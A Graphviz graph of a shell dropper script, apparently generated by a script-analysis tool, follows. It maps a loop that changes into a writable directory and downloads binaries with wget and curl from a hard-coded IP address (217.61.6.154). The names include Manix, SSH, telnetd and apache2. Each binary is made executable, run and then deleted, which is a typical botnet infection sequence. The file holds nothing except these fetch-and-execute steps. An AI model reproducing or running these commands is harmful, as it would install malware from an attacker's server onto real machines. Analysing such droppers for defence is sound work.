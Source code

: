 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://217.61.6.154/Manix "];
10 -> 12 [label=";,"];
12 [label="curl -O http://217.61.6.154/Manix "];
12 -> 14 [label=";,"];
14 [label="chmod +x Manix "];
14 -> 16 [label=";,"];
16 [label="./Manix "];
16 -> 18 [label=";,"];
18 [label="rm -rf Manix "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://217.61.6.154/Tranzit "];
30 -> 32 [label=";,"];
32 [label="curl -O http://217.61.6.154/Tranzit "];
32 -> 34 [label=";,"];
34 [label="chmod +x Tranzit "];
34 -> 36 [label=";,"];
36 [label="./Tranzit "];
36 -> 38 [label=";,"];
38 [label="rm -rf Tranzit "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://217.61.6.154/SSH "];
50 -> 52 [label=";,"];
52 [label="curl -O http://217.61.6.154/SSH "];
52 -> 54 [label=";,"];
54 [label="chmod +x SSH "];
54 -> 56 [label=";,"];
56 [label="./SSH "];
56 -> 58 [label=";,"];
58 [label="rm -rf SSH "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://217.61.6.154/ASK "];
70 -> 72 [label=";,"];
72 [label="curl -O http://217.61.6.154/ASK "];
72 -> 74 [label=";,"];
74 [label="chmod +x ASK "];
74 -> 76 [label=";,"];
76 [label="./ASK "];
76 -> 78 [label=";,"];
78 [label="rm -rf ASK "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://217.61.6.154/Team "];
90 -> 92 [label=";,"];
92 [label="curl -O http://217.61.6.154/Team "];
92 -> 94 [label=";,"];
94 [label="chmod +x Team "];
94 -> 96 [label=";,"];
96 [label="./Team "];
96 -> 98 [label=";,"];
98 [label="rm -rf Team "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://217.61.6.154/Gods "];
110 -> 112 [label=";,"];
112 [label="curl -O http://217.61.6.154/Gods "];
112 -> 114 [label=";,"];
114 [label="chmod +x Gods "];
114 -> 116 [label=";,"];
116 [label="./Gods "];
116 -> 118 [label=";,"];
118 [label="rm -rf Gods "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://217.61.6.154/Cook "];
130 -> 132 [label=";,"];
132 [label="curl -O http://217.61.6.154/Cook "];
132 -> 134 [label=";,"];
134 [label="chmod +x Cook "];
134 -> 136 [label=";,"];
136 [label="./Cook "];
136 -> 138 [label=";,"];
138 [label="rm -rf Cook "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://217.61.6.154/black "];
150 -> 152 [label=";,"];
152 [label="curl -O http://217.61.6.154/black "];
152 -> 154 [label=";,"];
154 [label="chmod +x black "];
154 -> 156 [label=";,"];
156 [label="./black "];
156 -> 158 [label=";,"];
158 [label="rm -rf black "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://217.61.6.154/White "];
170 -> 172 [label=";,"];
172 [label="curl -O http://217.61.6.154/White "];
172 -> 174 [label=";,"];
174 [label="chmod +x White "];
174 -> 176 [label=";,"];
176 [label="./White "];
176 -> 178 [label=";,"];
178 [label="rm -rf White "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://217.61.6.154/sh "];
190 -> 192 [label=";,"];
192 [label="curl -O http://217.61.6.154/sh "];
192 -> 194 [label=";,"];
194 [label="chmod +x sh "];
194 -> 196 [label=";,"];
196 [label="./sh "];
196 -> 198 [label=";,"];
198 [label="rm -rf sh "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://217.61.6.154/nut "];
210 -> 212 [label=";,"];
212 [label="curl -O http://217.61.6.154/nut "];
212 -> 214 [label=";,"];
214 [label="chmod +x nut "];
214 -> 216 [label=";,"];
216 [label="./nut "];
216 -> 218 [label=";,"];
218 [label="rm -rf nut "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://217.61.6.154/apache2 "];
230 -> 232 [label=";,"];
232 [label="curl -O http://217.61.6.154/apache2 "];
232 -> 234 [label=";,"];
234 [label="chmod +x apache2 "];
234 -> 236 [label=";,"];
236 [label="./apache2 "];
236 -> 238 [label=";,"];
238 [label="rm -rf apache2 "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://217.61.6.154/telnetd "];
250 -> 252 [label=";,"];
252 [label="curl -O http://217.61.6.154/telnetd "];
252 -> 254 [label=";,"];
254 [label="chmod +x telnetd "];
254 -> 256 [label=";,"];
256 [label="./telnetd "];
256 -> 257 [label=";,"];
}
